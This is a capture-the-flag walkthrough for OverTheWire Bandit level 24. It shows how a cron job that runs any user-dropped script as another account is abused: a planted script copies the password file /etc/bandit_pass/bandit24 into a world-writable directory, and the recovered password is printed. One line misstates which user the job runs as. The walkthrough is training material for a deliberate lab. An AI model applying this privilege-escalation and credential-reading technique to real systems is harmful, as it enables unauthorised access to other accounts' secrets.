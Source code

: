 ## Bandit Level 24 — TOBENAMED

### Description

A program is running automatically at regular intervals from `cron`, the time-based job scheduler. Look in `/etc/cron.d/` for the configuration and see what command is being executed.

**NOTE**: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2**: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

### Walkthrough

Let’s head into the cron configuration directory:
```bash
bandit23@bandit:~$ cd /etc/cron.d
bandit23@bandit:/etc/cron.d$ ls -l
total 28
-rw-r--r-- 1 root root 123 Apr 10 14:16 clean_tmp
-rw-r--r-- 1 root root 120 Apr 10 14:23 cronjob_bandit22
-rw-r--r-- 1 root root 122 Apr 10 14:23 cronjob_bandit23
-rw-r--r-- 1 root root 120 Apr 10 14:23 cronjob_bandit24
-rw-r--r-- 1 root root 201 Apr  8  2024 e2scrub_all
-rwx------ 1 root root  52 Apr 10 14:24 otw-tmp-dir
-rw-r--r-- 1 root root 396 Jan  9  2024 sysstat
```
We should read the `cronjob_bandit24` file:
```bash
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```
The script `/usr/bin/cronjob_bandit24.sh` is being executed every minute (and at reboot) as user `bandit23`.

Now let’s look at the contents of the script:
```bash
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```
* The output of `whoami` command is getting saved in a variable called `myname` (We know this script is being executed as user `bandit24`).
* It changes directory to: `/var/spool/bandit24/foo/`.
* It iterates over all files in that directory, including hidden files (`*` and `.*`), but skips `.` and `..`.
* For each file:
    * It checks if the file's owner is `bandit23`.
    * If so, it executes the file with a 60-second timeout using `timeout -s 9 60` (after 60 seconds, it would send a `SIGKILL` to the process).
    * It then deletes the file, whether it was executed or not.

We could use this behaviour as our favour. Let's write a bash script that reads the password for the next level (stored in `/etc/bandit_pass/bandit24` which we could only read it as user `bandit24`):

```bash
bandit23@bandit:/etc/cron.d$ mktemp -d
/tmp/tmp.5NY7AV73zq
bandit23@bandit:/etc/cron.d$ cd /tmp/tmp.5NY7AV73zq
bandit23@bandit:/tmp/tmp.5NY7AV73zq$ vim mkmaster.sh
```
I wrote the script like this:
```bash
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/tmp.5NY7AV73zq/pass.out
```
And changed the permission of this directory to allow others to read and write all the files inside it:
```bash
bandit23@bandit:/tmp/tmp.5NY7AV73zq$ touch pass.out
bandit23@bandit:/tmp/tmp.5NY7AV73zq$ chmod 777 -R /tmp/tmp.5NY7AV73zq
```
Now we copy our script to the target directory:
```bash
bandit23@bandit:/tmp/tmp.5NY7AV73zq$ cp mkmaster.sh /var/spool/bandit24/foo/
```
And we wait for a minute; after that we can read `pass.out` to see if our script worked properly or not:
```bash
bandit23@bandit:/tmp/tmp.5NY7AV73zq$ cat pass.out
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```
Nice we got the password!